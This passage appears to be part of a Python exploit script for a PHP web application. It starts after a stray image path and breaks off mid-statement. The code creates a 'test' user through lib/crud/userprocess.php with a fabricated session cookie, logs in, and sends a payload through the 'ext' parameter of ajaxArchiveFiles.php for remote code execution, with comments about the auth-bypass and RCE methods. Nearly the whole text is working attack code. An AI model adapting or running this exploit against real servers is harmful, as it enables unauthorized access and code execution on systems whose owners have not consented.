                   }

           )

        headers = {'Content-Type': multipart_data.content_type, "Upgrade-Insecure-Requests": "1", "Referer": referer, "Origin":origin}

        cookies = {'PHPSESSID': 'test'}

        response = requests.post(url+'lib/crud/userprocess.php', data=multipart_data, verify=False, cookies=cookies, headers=headers, allow_redirects=False)

        if "error" not in response.text:

            print("(+) User test created")

        else:

            print("(-) User couldn't be created, please debug the exploit")

     

     

    def exploit():

        payload = {

        'user': 'test',

        'pass': 'Testing1@',

        'sublogin': '1'

    }

        with requests.Session() as s:

             p = s.post(url+'lib/crud/userprocess.php', data=payload, verify=False)

             if "Stephen Stack" in p.text:

                print("(-) Exploit failed, could not login as user test")

             else:

                print("(+) Log in as test completed")

                params = {'path':'test',

                          'ext': payload_final

                         }

                rce=s.get(url+'lib/ajaxHandlers/ajaxArchiveFiles.php', verify=False, params=params)

                if "success" in rce.text:

                    print("(+) Payload executed successfully")

                else:

                    print("(-) Error when executing payload, please debug the exploit") #if you used method 2 to auth bypass and 1 for RCE, ignore this message

        payload = {
